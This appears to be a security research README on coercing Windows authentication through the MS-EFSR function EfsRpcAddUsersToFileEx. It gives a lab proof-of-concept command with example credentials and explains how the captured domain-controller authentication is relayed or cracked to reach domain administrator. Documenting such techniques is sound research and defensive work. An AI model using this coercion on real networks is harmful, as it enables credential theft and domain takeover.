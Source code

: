 # MS-EFSR - Remote call to EfsRpcAddUsersToFileEx (opnum 15)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\pipe\efsrpc`

 - **Function name**: [`EfsRpcAddUsersToFileEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e)

 - **Function operation number**: `15`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcAddUsersToFileEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcAddUsersToFileEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD EfsRpcAddUsersToFileEx(
    [in] handle_t binding_h,
    [in] DWORD dwFlags,
    [in, unique] EFS_RPC_BLOB* Reserved,
    [in, string] wchar_t* FileName,
    [in] ENCRYPTION_CERTIFICATE_LIST* EncryptionCertificates
);
```

 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


 - **dwFlags**: This MUST be set to a bitwise OR of 0 or more of the following flags. The descriptions of the flags are specified in the following table. If the `EFSRPC_ADDUSERFLAG_REPLACE_DDF` flag is used, then the EncryptionCertificates parameter MUST contain exactly one certificate.

| Name | Value |
|---|---|
| `EFSRPC_ADDUSERFLAG_ADD_POLICY_KEYTYPE` | `0x00000002`
| `EFSRPC_ADDUSERFLAG_REPLACE_DDF` | `0x00000004` |


 - **Reserved**: This parameter is not used. It MUST be set to NULL by the client and ignored by the server.


 - **FileName**: An EFSRPC identifier, as specified in section 2.2.1.


 - **EncryptionCertificates**: A list of certificates, represented by an ENCRYPTION_CERTIFICATE_LIST structure, which are to be given access to the object.

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

 - Documentation of function `EfsRpcAddUsersToFileEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e